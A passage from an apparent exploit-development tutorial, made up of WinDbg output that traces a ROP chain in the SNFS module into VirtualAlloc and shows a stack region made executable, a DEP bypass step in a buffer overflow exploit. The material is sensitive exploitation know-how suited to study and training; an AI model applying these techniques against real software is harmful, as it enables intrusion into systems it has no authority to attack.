 We keep stepping through our final instructions and finally note that we arrive at `KERNEL32!VirtualAllocStub`, and that our memory area has been successfully patched from `PAGE_READWRITE` to `PAGE_EXECUTE_READWRITE`.

```python
0:001> p
eax=00eae2ec ebx=42424242 ecx=ffffffe8 edx=db2934c0 esi=42424242 edi=42424242
eip=1001a558 esp=00eae2f0 ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
SNFS!_except_handler3+0xbc:
1001a558 c3              ret
0:001> dds esp L1
00eae2f0  76ca4d30 KERNEL32!VirtualAllocStub
0:001> !vprot 76ca4d30 
BaseAddress:       76ca4000
AllocationBase:    76c80000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        00063000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
0:001> p
eax=00eae2ec ebx=42424242 ecx=ffffffe8 edx=db2934c0 esi=42424242 edi=42424242
eip=76ca4d30 esp=00eae2f4 ebp=41414141 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
KERNEL32!VirtualAllocStub:
76ca4d30 8bff            mov     edi,edi
0:001> dds esp L1
00eae2f4  00eae434
0:001> !vprot 00eae434
BaseAddress:       00eae000
AllocationBase:    00e10000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00062000
State:             00001000  MEM_COMMIT
Protect:           00000004  PAGE_READWRITE
Type:              00020000  MEM_PRIVATE
0:001> pt
eax=00eae000 ebx=42424242 ecx=00eae2c4 edx=770313a0 esi=42424242 edi=42424242
eip=75084c61 esp=00eae2f4 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
KERNELBASE!VirtualAlloc+0x51:
75084c61 c21000          ret     10h
0:001> !vprot 00eae434
BaseAddress:       00eae000
AllocationBase:    00e10000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE

```
